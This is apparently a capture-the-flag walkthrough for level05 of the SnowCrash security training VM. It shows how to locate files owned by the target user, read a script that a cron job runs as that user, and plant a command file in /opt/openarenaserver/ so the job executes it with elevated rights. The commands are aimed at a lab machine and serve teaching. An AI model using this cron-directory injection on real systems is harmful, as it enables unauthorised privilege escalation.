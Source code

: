 ## 1. Connect to level05:

```bash
level04@SnowCrash:~$ su level05
password: *use previously found flag*
```

## 2. Find all files related to user *`flag05`*:
Starting from the home directory. Put all errors in /dev/null so that they don’t pollute the terminal.
```bash
level05@SnowCrash:~$ find / -user flag05 2> /dev/null
    /usr/sbin/openarenaserver
    /rofs/usr/sbin/openarenaserver
```

```bash
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
	-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver

level05@SnowCrash:~$ ls -l /rofs/usr/sbin/openarenaserver
	-rwxr-x--- 1 flag05 flag05 94 Mar  5  2016 /rofs/usr/sbin/openarenaserver
```

## 3. Read the files for which we have permission:
```bash
level05@SnowCrash:~$ cat /rofs/usr/sbin/openarenaserver
	cat: /rofs/usr/sbin/openarenaserver: Permission denied

level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
```

The function in `/usr/sbin/openarenaserver` goes through all the files and directories in `/opt/openarenaserver/`.
It executes all the `$i` files and deletes them afterwards.

## 4. Add a file in `/opt/openarenaserver/` to be executed:

Note that we cannot execute the existing sript ourselves
```bash
level05@SnowCrash:~$ ./usr/sbin/openarenaserver
	bash: /usr/sbin/openarenaserver: Permission denied
```

Therefore, write the script in a file
```bash
level05@SnowCrash:~$ echo "getflag > /tmp/flag" > /opt/openarenaserver/flag
```

## 5. Wait a couple of minutes for the cron job to execute `/opt/openarenaserver/`, then run:
```bash
level05@SnowCrash:~$ cat /tmp/flag
```